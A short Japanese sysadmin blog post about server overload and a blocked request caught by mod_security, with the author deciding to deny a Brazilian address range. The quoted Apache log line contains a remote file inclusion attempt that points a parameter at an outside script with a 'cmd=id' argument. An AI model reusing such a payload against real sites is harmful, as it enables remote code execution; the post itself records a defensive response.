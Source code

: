 ﻿またか…。
##########


今週もMaxClientsで落ちた。うーん、変なアクセスをしてくるところが多いのと、サーチエンジンのロボット検索がやたら増えてきたなぁ。で、明らかにおかしいリクエストを出して、modsecurityで落ちている。

.. code-block:: none

   [Sat Mar 31 10:23:22 2007] [error] [client 201.79.41.96] mod_security: Access de
   nied with code 500. Pattern match &#34;^$&#34; at HEADER [hostname &#34;hogehoge&#34;] [ur
   i &#34;http://hogehoge/index.php?XA4F2B5AFC6B0A4C7A4ADA4CAA4A413kfl72.14.209.1
   04/cache:ELL9KACjZWUJ:hogehoge/index.php3FX25A425F225B525AF25C625B025A425C
   725A425AD25A425CA25A425A4=http://prm.hardbr.com/tool25.txt?cmd=id&#34;]


このアクセス元を逆引きすると、20178001001.user.veloxzone.com.br.のような感じで引ける。アドレス範囲は201.78.0.0/15で、ブラジルからなので、来てもらわんでも特に問題なし。すべて許否することにした。
それにしても、なんとかしないとなぁ、この状況。１月から、２、３月とアクセスが２倍、３倍と増えてきてるもんなぁ。そろそろやばいか。



.. author:: mkouhei
.. categories:: security, Unix/Linux, 
.. tags::


